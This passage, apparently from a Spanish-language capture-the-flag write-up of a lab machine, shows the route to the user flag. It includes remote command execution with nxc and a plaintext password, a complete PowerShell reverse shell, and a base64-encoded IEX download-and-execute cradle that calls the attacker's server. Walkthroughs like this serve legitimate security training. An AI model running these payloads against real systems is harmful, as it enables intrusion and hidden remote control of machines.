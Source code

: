 Podemos ejecutar comando con `nxc` o `crackmapexec` para verificar si podemos hacer lo que nos dice bloodhound, para lo cual utilizamos el siguiente comando en nxc 

## User Flag

```zsh
nxc smb 10.10.11.4 -u svc_openfire -p '!@#$%^&*(1qazxsw' --exec-method mmcexec -x 'ping ip'
```

<figure>
<img src="/assets/img/Jab/Imagen16.png" >
</figure>  
y utilizamos la herramienta tcpdump  para verificar que los paquetes de tipo ICMP estén llegando en nuestro caso es correcto. 
```zsh
sudo tcpdump -i tun0 icmp
```

Como podemos ejecutar comandos, vamos a crear una simple reverse shell en powershell llamado shell.ps1

```zsh
$client = New-Object System.Net.Sockets.TCPClient('ip',port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Creamos un archivo de comandos de powershell para descargar y ejecutar el archivo sin dejar rastros en la memoria del sistema es una buena practica 

```zsh
cat DownloadString                                   
IEX(New-Object Net.WebClient).downloadString('http://ip:8000/shell.ps1')
```


```zsh
cat DownloadString | iconv -t utf-16le | base64 -w 0                            
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAOgA4ADAAMAAwAC8AcwBoAGUAbABsAC4AcABzADEAJwApAAoA  
```


1. **`iconv -t utf-16le`**:
    - Convierte el contenido leído por `cat` a la codificación **UTF-16LE** (UTF-16 Little Endian).
    - Esto suele hacerse porque algunos sistemas (como Windows o aplicaciones específicas) requieren que los datos estén codificados en este formato.
2. **`base64 -w 0`**:
    - Convierte el contenido codificado en UTF-16LE a una cadena en formato **Base64**.
    - El parámetro `-w 0` asegura que la salida no tenga saltos de línea, es decir, produce una única línea continua.
